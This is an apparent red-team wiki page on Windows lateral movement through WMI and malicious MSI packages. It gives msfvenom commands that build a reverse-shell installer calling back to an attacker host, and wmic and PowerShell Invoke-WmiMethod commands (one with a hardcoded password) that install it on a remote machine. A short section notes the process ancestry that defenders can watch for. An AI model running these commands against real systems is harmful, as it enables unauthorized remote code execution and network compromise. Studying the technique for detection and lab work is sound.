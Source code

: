 ```yaml
---
description: WMI lateral movement with .msi packages
---
```


# WMI + MSI Lateral Movement

## Execution

Generating malicious payload in MSI \(Microsoft Installer Package\):

{% tabs %}
{% tab title="attacker@local" %}
```csharp
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.0.0.5 LPORT=443 -f msi > evil64.msi
```
{% endtab %}
{% endtabs %}

![](../../.gitbook/assets/screenshot-from-2018-10-19-17-31-00.png)

I tried executing the .msi payload like so, but got a return code `1619` and a quick search on google returned nothing useful:

{% tabs %}
{% tab title="attacker@remote" %}
```csharp
wmic /node:10.0.0.7 /user:offense\administrator product call install PackageLocation='\\10.0.0.2\c$\experiments\evil64.msi'
```
{% endtab %}
{% endtabs %}

![](../../.gitbook/assets/screenshot-from-2018-10-19-18-45-55.png)

I had to revert to a filthy way of achieving the goal:

{% tabs %}
{% tab title="attacker@remote" %}
```csharp
net use \\10.0.0.7\c$ /user:administrator@offense; copy C:\experiments\evil64.msi \\10.0.0.7\c$\PerfLogs\setup.msi ; wmic /node:10.0.0.7 /user:administrator@offense product call install PackageLocation=c:\PerfLogs\setup.msi
```
{% endtab %}
{% endtabs %}

![](../../.gitbook/assets/peek-2018-10-19-18-41.gif)

Additionally, the same could of be achieved using powershell cmdlets:

{% tabs %}
{% tab title="attacker@remote" %}
```csharp
Invoke-WmiMethod -Path win32_product -name install -argumentlist @($true,"","c:\PerfLogs\setup.msi") -ComputerName pc-w10 -Credential (Get-Credential)
```
{% endtab %}
{% endtabs %}

Get a prompt for credentials:

![](../../.gitbook/assets/screenshot-from-2018-10-19-19-02-10.png)

and enjoy the code execution:

![](../../.gitbook/assets/screenshot-from-2018-10-19-19-02-48.png)

Or if no GUI is available for credentials, a oneliner:

{% tabs %}
{% tab title="attacker@remote" %}
```csharp
$username = 'Administrator';$password = '123456';$securePassword = ConvertTo-SecureString $password -AsPlainText -Force; $credential = New-Object System.Management.Automation.PSCredential $username, $securePassword; Invoke-WmiMethod -Path win32_product -name install -argumentlist @($true,"","c:\PerfLogs\setup.msi") -ComputerName pc-w10 -Credential $credential
```
{% endtab %}
{% endtabs %}

![](../../.gitbook/assets/screenshot-from-2018-10-19-19-09-42.png)

## Observations

Note the process ancestry: `services > msiexec.exe > .tmp > cmd.exe`:

![](../../.gitbook/assets/screenshot-from-2018-10-19-18-46-37.png)

and that the connection is initiated by the .tmp file \(I ran another test, hence another file name\):

![](../../.gitbook/assets/screenshot-from-2018-10-19-18-55-53.png)

## References

{% embed url="https://www.cybereason.com/blog/wmi-lateral-movement-win32" %}

{% embed url="https://twitter.com/buffaloverflow/status/1002523407261536256" %}

